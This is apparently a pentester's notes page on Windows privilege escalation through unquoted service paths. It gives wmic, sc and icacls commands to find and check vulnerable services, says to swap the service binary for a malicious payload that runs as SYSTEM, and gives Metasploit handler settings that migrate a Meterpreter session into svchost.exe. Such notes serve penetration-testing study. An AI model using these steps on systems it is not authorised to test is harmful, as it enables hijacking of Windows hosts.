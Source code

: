 # d - Unqouted Service Paths

### Steps to perform the exploit

{% embed url="https://www.ired.team/offensive-security/privilege-escalation/environment-variable-path-interception" %}

`wmic service get name,displayname, pathname,startmode | findstr /i "auto" | findstr /i /v "c:\windows\\" | findstr /i /v """` -search for services with Unquuoted paths.

`sc stop <service_name>` - check if the user can stop and start the program 1st without any errors, then

`sc qc <service_name>` - check if the service will start as the LOCAL SYSTEM account.&#x20;

`icacls "dir_name"`  - check the permission of the directory you will write the payload into if the user has modification permission. If all goes well you can go ahead and replace the binary with a malicious payload.

### How to make a Meterpreter Session stable

Sometimes when you successfully get a meterpreter session, it might crash iimmediately, we can remedy this by launching our handler with the "auto run script" as an additional option to our handler we will use the "set auto run script" option with the "migrate" cmd and the "-" and parameter to migrate our payload to an existing "svchost.exe" process, this should give our payload some stability (stable meterpreter / stabel session) and allow us to interact with it.

```bash
msf> use multi/handler
msf> set AutoRunScript migrate -n svchost.exe
msf> set LHOST and LPORT, PAYLOAD then run.
```
